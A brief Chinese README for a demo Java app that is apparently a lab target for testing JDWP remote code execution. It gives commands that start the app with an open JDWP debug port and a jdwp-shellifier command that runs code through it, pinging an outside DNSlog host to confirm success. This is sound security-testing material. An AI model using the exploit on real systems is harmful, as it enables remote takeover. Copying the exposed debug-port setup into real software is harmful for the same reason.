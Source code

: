 # jdwp_sofaboot
用于测试JDWP远程代码执行的DemoApp

打包应用
```
mvn package -DskipTests
```

启动应用
```
java -Xdebug -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=9999 -jar ./target/boot/demo-bootstrap-0.0.1-SNAPSHOT-executable.jar
```
或
```
java -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=9999 -jar ./target/boot/demo-bootstrap-0.0.1-SNAPSHOT-executable.jar
```

利用[jdwp-shellifier](https://github.com/michaelpdu/jdwp-shellifier)设置触发点和命令
```
python jdwp-shellifier.py -t 127.0.0.1 -p 9999 --break-on 'java.lang.String.indexOf' --cmd 'ping root.8yvuyw.ceye.io'
```

这里使用的payload是DNSlog，可以直接在DNS server上查看相应的log信息。
